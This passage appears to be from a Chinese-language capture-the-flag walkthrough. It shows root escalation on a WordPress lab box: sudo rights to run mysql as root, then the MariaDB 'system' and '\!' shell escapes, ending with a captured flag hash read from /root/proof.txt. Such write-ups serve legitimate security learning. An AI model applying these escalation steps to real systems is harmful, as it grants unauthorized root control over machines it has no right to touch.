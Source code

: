 发现数据库账号密码，但是并没有什么卵用



### sudo提权

查看sudo权限

执行`sudo -l `

```
wpadmin@wp:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for wpadmin on wp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wpadmin may run the following commands on wp:
    (root) NOPASSWD: /usr/bin/mysql -u root -D wordpress -p
```

那么执行如下命令(需要加上sudo, 密码就是wpadm账号的密码)

```
/usr/bin/mysql -u root -D wordpress -p
```

进入数据库，当前数据库是root启动，所以是mysql是root权限。





### mysql system提权

```
MariaDB [wordpress]> system id
uid=0(root) gid=0(root) groups=0(root)
```

获取shell

```
MariaDB [wordpress]> system /bin/bash
root@wp:/var/www/html/wordpress#
```

或者不是用system也行，使用`\!`

```
MariaDB [wordpress]> \! id
uid=0(root) gid=0(root) groups=0(root)
MariaDB [wordpress]> \! /bin/bash
root@wp:/var/www/html/wordpress#
```



第二个flag

```
root@wp:/var/www/html/wordpress# cat /root/proof.txt
7efd721c8bfff2937c66235f2d0dbac1
```
